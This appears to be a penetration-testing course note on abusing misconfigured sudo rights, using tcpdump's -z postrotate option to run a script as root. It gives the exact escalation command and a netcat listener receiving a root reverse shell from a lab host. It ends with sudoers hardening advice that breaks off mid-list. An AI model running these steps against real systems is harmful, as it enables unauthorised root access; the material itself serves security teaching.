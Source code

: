 # Sudo Rights Abuse

Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the **sudo** command is issued, the system will check if the user issuing the command has the appropriate rights, as configued **/etc/sudoers**.

When landing on a system, we should always check to see if the current user has nay privileges by typing `sudo -l`. Sometimes we will need to know the user's password to list their **sudo** rights, but any rights entries with the **NOPASSWD** options can be seen without entering a password.

`sudo -l`

It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as **tcpdump** per the following entry in the sudoers file: **(ALL) NOPASSWD: /usr/sbin/tcpdump** an attacker could leverage this to take advantage of the **postrostate-command**

`man tcpdump`

By specifying the -z flag, an attacker could use **tcpdump** to execute a shell script, gain a reverse shell as the root use or run other privileged commands. For example, an attacker could create the shell script **.test** containing a reverse shell and execute it as follows:

`sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`

Let's try this out. First, make a file to execute with the **postrotate-command**. adding a simple reverse shell one-liner.

`cat /tmp/.test`

Next, start a **netcat** listener on our attacking box run **tcpdump** as root with the **postrotate-command**. If all goes to plan, we will receive a reverse shell connection.

`sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`

```EXAMPLE OUTPUT
$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in mor recent distributions has predefined the commands, used with the **postrotate-command**, effectively preventing command execution. Two best practices that should always be considered when provisioning **sudo** rights:

1. Always specify the absolute path to any binaries listed in the **sudoers** file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next session) to create a malicious binary that will be executed when the command runs (i.e., if the sudoers entry specifies **cat** instead of **/bin/cat** this could likely be abused).

2.

---

↩️: [Home](../../index.md)
